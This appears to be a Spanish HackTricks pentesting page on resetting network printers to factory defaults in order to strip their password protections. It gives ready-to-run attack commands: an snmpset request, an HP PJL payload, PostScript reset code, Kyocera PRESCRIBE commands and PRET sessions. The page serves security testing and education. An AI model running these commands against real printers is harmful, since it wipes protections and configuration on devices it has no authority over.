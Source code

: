 <details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- ¿Trabajas en una **empresa de ciberseguridad**? ¿Quieres ver tu **empresa anunciada en HackTricks**? ¿O quieres tener acceso a la **última versión de PEASS o descargar HackTricks en PDF**? ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!

- Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)

- Obtén la [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **Únete al** [**💬**](https://emojipedia.org/speech-balloon/) [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**

- **Comparte tus trucos de hacking enviando PR al [repositorio de hacktricks](https://github.com/carlospolop/hacktricks) y al [repositorio de hacktricks-cloud](https://github.com/carlospolop/hacktricks-cloud)**.

</details>


**Restablecer** un dispositivo a los valores de fábrica es una funcionalidad crítica de seguridad ya que **sobrescribe los mecanismos de protección** como las contraseñas establecidas por el usuario. Esto se puede hacer generalmente presionando una **combinación de teclas especiales** en el **panel de control** de la impresora. Realizar un restablecimiento de este tipo solo lleva segundos y, por lo tanto, es un escenario realista para atacantes locales o probadores de penetración, que pueden, por ejemplo, colarse en la sala de copias durante el almuerzo. Sin embargo, **no siempre es posible tener acceso físico** al dispositivo.

### SNMP

El Printer-MIB define el objeto **prtGeneralReset** (**OID 1.3.6.1.2.1.43.5.1.1.3.1**) que permite a un atacante reiniciar el dispositivo (powerCycleReset(4)), restablecer la configuración de NVRAM (resetToNVRAM(5)) o restaurar los valores de fábrica (resetToFactoryDefaults(6)) utilizando SNMP. Esta característica/ataque es **compatible con una gran variedad de impresoras** y elimina todos los mecanismos de protección como las contraseñas establecidas por el usuario para el servidor web integrado. Si bien los mecanismos de protección se pueden pasar eficientemente por alto, una desventaja práctica de este enfoque es que se perderá toda la **configuración de dirección IP estática**. **Si no hay un servicio DHCP** disponible, el atacante **no podrá volver a conectarse** al dispositivo después de restablecerlo a los valores de fábrica.

**Restablecer el dispositivo a los valores de fábrica** se puede lograr utilizando el comando `snmpset` como se muestra a continuación (necesita conocer la **cadena de comunidad**, que por defecto en la mayoría de los casos es `public`):
```bash
snmpset -v1 -c public printer 1.3.6.1.2.1.43.5.1.1.3.1 i 6
```
### [PML](./#pml)/[PJL](./#pjl)

En muchos escenarios, un atacante no tiene la capacidad de realizar solicitudes SNMP debido a cortafuegos o cadenas de comunidad SNMP desconocidas. Sin embargo, en dispositivos **HP**, **SNMP** se puede transformar en su representación **PML** e incrustar la solicitud dentro de un trabajo de impresión legítimo. Esto permite a un atacante **reiniciar y/o restablecer el dispositivo** a los valores predeterminados de fábrica dentro de trabajos de impresión ordinarios, como se muestra a continuación:
```bash
@PJL DMCMD ASCIIHEX="040006020501010301040106"
```
Cualquiera puede reproducir este ataque en impresoras HP, reiniciar o restablecer el dispositivo puede hacerse fácilmente utilizando [**PRET**](https://github.com/RUB-NDS/PRET):
```bash
./pret.py -q printer pjl
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.
printer:/> reset
printer:/> restart
```
### PostScript

PostScript ofrece una característica similar: el parámetro del sistema **FactoryDefaults**, "una bandera que, si se establece en verdadero inmediatamente antes de que se apague la impresora, hace que todos los parámetros no volátiles vuelvan a sus valores predeterminados de fábrica en el próximo encendido". Cabe señalar que PostScript en sí también tiene la capacidad de reiniciar su entorno, pero requiere una contraseña válida. \
Sin embargo, el intérprete de PostScript puede ser puesto en un bucle infinito como se discute en los ataques de denegación de servicio (DoS) de procesamiento de documentos, lo que obliga al usuario a reiniciar manualmente el dispositivo y, por lo tanto, restablecer la contraseña de PostScript.

Restablecer los parámetros del sistema PostScript a los valores predeterminados de fábrica:
```bash
<< /FactoryDefaults true >> setsystemparams
```
Reiniciar el intérprete PostScript y la memoria virtual:
```bash
true 0 startjob systemdict /quit get exec
```
Cualquier persona puede reiniciar o restablecer el intérprete PostScript de una impresora **fácilmente se puede reproducir usando** [**PRET**](https://github.com/RUB-NDS/PRET):
```bash
./pret.py -q printer ps
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.
printer:/> reset
printer:/> restart
```
### PRESCRIBE

Para dispositivos **Kyocera**, los lenguajes de descripción de página **PRESCRIBE** se pueden utilizar para **restablecer el dispositivo** a los valores de fábrica desde trabajos de impresión ordinarios utilizando uno de los comandos que se muestran a continuación:
```bash
!R! KSUS "AUIO", "CUSTOM:Admin Password = 'admin00'";  CMMT "Drop the security level, reset password";
!R! ACNT "REST";                                       CMMT "Reset account code admin password";
!R! EGRE;                                              CMMT "Reset the engine board to factory defaults";
!R! SIOP0,"RESET:0";                                   CMMT "Reset configuration settings";
```
Para reproducir este ataque, abra una conexión de red cruda al puerto 9100/tcp de la impresora y **envíe los comandos documentados arriba**.

